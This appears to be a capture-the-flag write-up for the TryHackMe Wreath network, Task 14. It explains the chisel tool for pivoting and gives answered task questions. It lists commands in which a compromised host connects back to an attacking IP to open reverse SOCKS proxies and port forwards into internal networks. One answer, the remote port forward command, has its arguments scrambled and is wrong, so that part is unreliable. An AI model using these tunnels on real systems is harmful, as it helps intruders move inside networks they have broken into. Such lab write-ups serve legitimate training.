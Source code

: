 **TASK 14: Chisel**

Instead of going through the git file mentioned in the descp of the task file just go the terminal and type
`chisel` in it..

![fdfaff](https://github.com/Anirudh-Saxena/Wreath-Writeup-THM/assets/73027020/35a2c3a9-410a-4677-bac3-eacbd9fd5b7a)

And then check the version of the chisel by using `chisel` command again 

![Screenshot_2023-08-04_04_20_58](https://github.com/Anirudh-Saxena/Wreath-Writeup-THM/assets/73027020/12e13a6f-e653-4a54-9042-c5ac4d9469e9)

In order to access the help page simply type `chisel [command] --help

For example : `chisel server --help`

After this we will be creating 
- Reverse SOCKS Proxy
- Forward SOCKS Proxy
- Proxychains Reminder
- Remote Port Forward
- Local Port Forward


# Reverse SOCKS Proxy:
    ./chisel server -p LISTEN_PORT --reverse &
Can be done using this command, make sure to replace the `./chisel` with the server name that you donwloaded with..

On the compromised host, we would use the following command:

    ./chisel client ATTACKING_IP:LISTEN_PORT R:socks &

Notice that, despite connecting back to port 1337 successfully, the actual proxy has been opened on 127.0.0.1:1080. As such, we will be using port 1080 when sending data through the proxy.

Note the use of R:socks in this command. "R" is prefixed to remotes (arguments that determine what is being forwarded or proxied -- in this case setting up a proxy) when connecting to a chisel server that has been started in reverse mode.


# Forward SOCKS Proxy:

Run this on compromised host 

    ./chisel server -p LISTEN_PORT --socks5

And then run this on your Local machine to establish the connection between local host and the machine 

    ./chisel client TARGET_IP:LISTEN_PORT PROXY_PORT:socks

For example, `./chisel client 172.16.0.10:8080 1337:socks` would connect to a chisel server running on port 8080 of 172.16.0.10. A SOCKS proxy would be opened on port 1337 of our attacking machine.


# Remote Port forwad:

A remote port forward is when we connect back from a compromised target to create the forward.

For a remote port forward, on our attacking machine we use the exact same command as before:

    ./chisel server -p LISTEN_PORT --reverse &

Once again this sets up a chisel listener for the compromised host to connect back to.
The command to connect back will be different i.e:

      ./chisel client ATTACKING_IP:LISTEN_PORT R:LOCAL_PORT:TARGET_IP:TARGET_PORT &

The request is quite similar to that of the SSH reverse port...

# Local Port Forward:

As with SSH, a local port forward is where we connect from our own attacking machine to a chisel server listening on a compromised target.

Like we tried the connection with the private key `id_rsa` in the task 6

**Q. What command would you use to start a chisel server for a reverse connection on your attacking machine?
Use port 4242 for the listener and do not background the process.**

Ans: `./chisel server -p 4242 --reverse`

**Q. What command would you use to connect back to this server with a SOCKS proxy from a compromised host, assuming your own IP is 172.16.0.200 and backgrounding the process?**

Ans: `./chisel client 172.16.0.200:4242 R:socks &`

**Q. How would you forward 172.16.0.100:3306 to your own port 33060 using a chisel remote port forward, assuming your own IP is 172.16.0.200 and the listening port is 1337? Background this process.**

    ./chisel client 172.16.0.100:3306 33060:172.16.0.200:1337 R:socks &

**Q. If you have a chisel server running on port 4444 of 172.16.0.5, how could you create a local portforward, opening port 8000 locally and linking to 172.16.0.10:80?**

    ./chisel client 172.16.0.5:4444 8000:172.16.0.10:80
